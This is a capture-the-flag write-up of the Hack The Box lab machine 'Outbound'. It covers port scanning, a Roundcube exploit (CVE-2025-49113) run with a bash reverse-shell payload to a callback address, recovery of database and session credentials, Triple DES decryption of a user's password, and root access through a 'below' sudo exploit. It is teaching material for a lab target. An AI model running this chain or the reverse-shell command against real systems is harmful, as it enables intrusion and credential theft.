








# Outbound

<div class="wu-meta" markdown="span">
<span class="wu-badge wu-os">:fontawesome-brands-linux: Linux</span>
<span class="wu-tags">
<span class="wu-tag">Roundcube</span>
<span class="wu-tag">Triple DES</span>
<span class="wu-tag">below</span>
</span>
</div>

!!! abstract "What this box demonstrates"
    Outbound began with supplied webmail credentials. The first shell was only the start: Roundcube's configuration and session database had to be combined before I could read Jacob's mail and obtain his separate SSH password.

## Attack path

1. Exploit the authenticated Roundcube instance with the supplied Tyler account.
2. Recover Jacob's encrypted session password and then his SSH password from mail.
3. Abuse the sudo-enabled below logging vulnerability.

[HTB machine](https://app.hackthebox.com/machines/672) · [Official retirement evidence](https://labs.hackthebox.com/achievement/machine/2048041/672) (checked November 17, 2026).

## Enumeration

```fish
set -x IP 10.10.11.77

# Rustscan - fast port scanner
rustscan -a $IP

# nmapAutomator
sudo nmapAutomator -H $IP -t recon

# Initial fast port discovery
set ports (nmap -p- --min-rate=1000 -T4 -n --open $IP | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') && echo $ports

# Nmap TCP Scan
sudo nmap -p$ports -sC -sV -O $IP -oA scan_tcp

# Nmap UDP Scan
sudo nmap -sU --top-ports 1000 --min-rate=500 -T4 -sC -sV -oA scan_udp $IP
```

### Enumeration Results
```text
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-title: Roundcube Webmail :: Welcome to Roundcube Webmail
|_http-server-header: nginx/1.24.0 (Ubuntu)
```

### Service Enumeration
#### 80

* Redirects to `mail.outbound.htb`. After adding this to `/etc/hosts`, I'm immediately prompted with a login page. 
* Default credentials `admin:admin` did not work
* directory fuzzing shows all 200 OK responses for any input
* subdomain fuzzing only shows `mail`
* nuclei
	* `nuclei -u http://mail.outbound.htb`
	* 
<figure class="wu-evidence" markdown>

<figcaption>Nuclei identifies the Roundcube vulnerability used for the foothold.</figcaption>
</figure>

	* We can see nuclei revealed CVE-2025-49113

---
## Foothold
[Reference](https://github.com/fearsoff-org/CVE-2025-49113)

Use the following command to obtain a shell on the target while running an NC listener on the appropriate port (ensure you're in the cloned git POC directory):
```bash
php CVE-2025-49113.php http://mail.outbound.htb tyler LhKL1o9Nm3X2 "bash -c 'bash -i >& /dev/tcp/10.10.14.10/9005 0>&1'"
```

<figure class="wu-evidence" markdown>

<figcaption>The authenticated Roundcube PoC produces a reverse shell.</figcaption>
</figure>

**Payload provenance:** I reached this command after consulting another writeup during the lab. Other shell variants I tried did not return a shell; the saved callback above confirms this one.

---

## Lateral Movement

<figure class="wu-evidence" markdown>

<figcaption>Roundcube configuration supplies the database connection details.</figcaption>
</figure>

```text
tyler@mail:/etc$ mysql -uroundcube -p
mysql -uroundcube -p
Enter password: RCDBPass2025
```

```text
MariaDB [(none)]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| roundcube          |
+--------------------+

MariaDB [(none)]> use roundcube;
...
MariaDB [roundcube]> show tables;
show tables;
+---------------------+
| Tables_in_roundcube |
+---------------------+
...
| session             |
| system              |
| users               |
+---------------------+
```

From the `users` table, we get the user `jacob`, `mel`, and `tyler`, however there are no hashed passwords.

Now, looking at the `session` table, we see the following encoded value:
```text
bGFuZ3VhZ2V8czo1OiJlbl9VUyI7aW1hcF9uYW1lc3BhY2V8YTo0OntzOjg6InBlcnNvbmFsIjthOjE6e2k6MDthOjI6e2k6MDtzOjA6IiI7aToxO3M6MToiLyI7fX1zOjU6Im90aGVyIjtOO3M6Njoic2hhcmVkIjtOO3M6MTA6InByZWZpeF9vdXQiO3M6MDoiIjt9aW1hcF9kZWxpbWl0ZXJ8czoxOiIvIjtpbWFwX2xpc3RfY29uZnxhOjI6e2k6MDtOO2k6MTthOjA6e319dXNlcl9pZHxpOjE7dXNlcm5hbWV8czo1OiJqYWNvYiI7c3RvcmFnZV9ob3N0fHM6OToibG9jYWxob3N0IjtzdG9yYWdlX3BvcnR8aToxNDM7c3RvcmFnZV9zc2x8YjowO3Bhc3N3b3JkfHM6MzI6Ikw3UnYwMEE4VHV3SkFyNjdrSVR4eGNTZ25JazI1QW0vIjtsb2dpbl90aW1lfGk6MTc0OTM5NzExOTt0aW1lem9uZXxzOjEzOiJFdXJvcGUvTG9uZG9uIjtTVE9SQUdFX1NQRUNJQUwtVVNFfGI6MTthdXRoX3NlY3JldHxzOjI2OiJEcFlxdjZtYUk5SHhETDVHaGNDZDhKYVFRVyI7cmVxdWVzdF90b2tlbnxzOjMyOiJUSXNPYUFCQTF6SFNYWk9CcEg2dXA1WEZ5YXlOUkhhdyI7dGFza3xzOjQ6Im1haWwiO3NraW5fY29uZmlnfGE6Nzp7czoxNzoic3VwcG9ydGVkX2xheW91dHMiO2E6MTp7aTowO3M6MTA6IndpZGVzY3JlZW4iO31zOjIyOiJqcXVlcnlfdWlfY29sb3JzX3RoZW1lIjtzOjk6ImJvb3RzdHJhcCI7czoxODoiZW1iZWRfY3NzX2xvY2F0aW9uIjtzOjE3OiIvc3R5bGVzL2VtYmVkLmNzcyI7czoxOToiZWRpdG9yX2Nzc19sb2NhdGlvbiI7czoxNzoiL3N0eWxlcy9lbWJlZC5jc3MiO3M6MTc6ImRhcmtfbW9kZV9zdXBwb3J0IjtiOjE7czoyNjoibWVkaWFfYnJvd3Nlcl9jc3NfbG9jYXRpb24iO3M6NDoibm9uZSI7czoyMToiYWRkaXRpb25hbF9sb2dvX3R5cGVzIjthOjM6e2k6MDtzOjQ6ImRhcmsiO2k6MTtzOjU6InNtYWxsIjtpOjI7czoxMDoic21hbGwtZGFyayI7fX1pbWFwX2hvc3R8czo5OiJsb2NhbGhvc3QiO3BhZ2V8aToxO21ib3h8czo1OiJJTkJPWCI7c29ydF9jb2x8czowOiIiO3NvcnRfb3JkZXJ8czo0OiJERVNDIjtTVE9SQUdFX1RIUkVBRHxhOjM6e2k6MDtzOjEwOiJSRUZFUkVOQ0VTIjtpOjE7czo0OiJSRUZTIjtpOjI7czoxNDoiT1JERVJFRFNVQkpFQ1QiO31TVE9SQUdFX1FVT1RBfGI6MDtTVE9SQUdFX0xJU1QtRVhURU5ERUR8YjoxO2xpc3RfYXR0cmlifGE6Njp7czo0OiJuYW1lIjtzOjg6Im1lc3NhZ2VzIjtzOjI6ImlkIjtzOjExOiJtZXNzYWdlbGlzdCI7czo1OiJjbGFzcyI7czo0MjoibGlzdGluZyBtZXNzYWdlbGlzdCBzb3J0aGVhZGVyIGZpeGVkaGVhZGVyIjtzOjE1OiJhcmlhLWxhYmVsbGVkYnkiO3M6MjI6ImFyaWEtbGFiZWwtbWVzc2FnZWxpc3QiO3M6OToiZGF0YS1saXN0IjtzOjEyOiJtZXNzYWdlX2xpc3QiO3M6MTQ6ImRhdGEtbGFiZWwtbXNnIjtzOjE4OiJUaGUgbGlzdCBpcyBlbXB0eS4iO311bnNlZW5fY291bnR8YToyOntzOjU6IklOQk9YIjtpOjI7czo1OiJUcmFzaCI7aTowO31mb2xkZXJzfGE6MTp7czo1OiJJTkJPWCI7YToyOntzOjM6ImNudCI7aToyO3M6NjoibWF4dWlkIjtpOjM7fX1saXN0X21vZF9zZXF8czoyOiIxMCI7
```

Use CyberChef to decode this from base64 to reveal the user `jacob` and an encrypted password:

<figure class="wu-evidence" markdown>

<figcaption>Decoding the session exposes Jacob&#x27;s encrypted password field.</figcaption>
</figure>

```text
L7Rv00A8TuwJAr67kITxxcSgnIk25Am/
```

The session field is encrypted rather than hashed. Decrypting it required Roundcube's configured Triple DES key and the IV from the decoded value. 

Triple DES Decryption requires a Key and IV. The Key can be found at `/var/www/html/roundcube/config/config.inc.php`

<figure class="wu-evidence" markdown>

<figcaption>The configuration explains the Triple DES key requirement.</figcaption>
</figure>

Now, we can used the encrypted value to break up the sequence into two bits. 

<figure class="wu-evidence" markdown>

<figcaption>The decoded password value is separated into IV and ciphertext.</figcaption>
</figure>

First, we take the first eight decoded bytes and use this as our IV value above (highlighted red) and use the remainder of the Base64 value above (highlighted blue) as our Input to receive the following:

<figure class="wu-evidence" markdown>

<figcaption>Triple DES decryption recovers Jacob&#x27;s container password.</figcaption>
</figure>

`595mO8DmwGeD`

Now, we can `su jacob` and use the above password to successfully switch users. Note that we still cannot SSH yet, so we'll need to keep digging.

As `jacob`, review the `/home/jacob` directory to find `mail`. Inside are emails which contains the following snippet:

<figure class="wu-evidence" markdown>

<figcaption>A saved email contains Jacob&#x27;s separate SSH password.</figcaption>
</figure>

Finally, we can use SSH and gain our initial Foothold onto the box as `jacob`.

```bash
ssh jacob@10.10.11.77 
Password: gY4Wr3a1evp4
```

---
## Privilege escalation
```text
jacob@outbound:~$ sudo -l
Matching Defaults entries for jacob on outbound:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jacob may run the following commands on outbound:
    (ALL : ALL) NOPASSWD: /usr/bin/below *, !/usr/bin/below --config*, !/usr/bin/below --debug*, !/usr/bin/below -d*
```

Note the following from our sudo privileges `/usr/bin/below *`

Googling "below cve github" revealed the following POC:

[Reference](https://github.com/BridgerAlderson/CVE-2025-27591-PoC/blob/main/exploit.py)

Simply copy the python file onto the target and run to get root.

### Recorded privilege verification

The identity output below is transcribed from the original screenshot; flag values and the flag-bearing image are omitted.

```text
jacob@outbound:~$ python3 exploit.py
[+] Payload appended successfully.
[*] Attempting to switch to root shell via su attacker...
# whoami
root
```

## Lessons learned

Base64 decoding, password hashing, and encryption are different operations. Jacob's Roundcube session required both the configured key and the decoded IV before his mailbox could reveal the separate SSH credential.
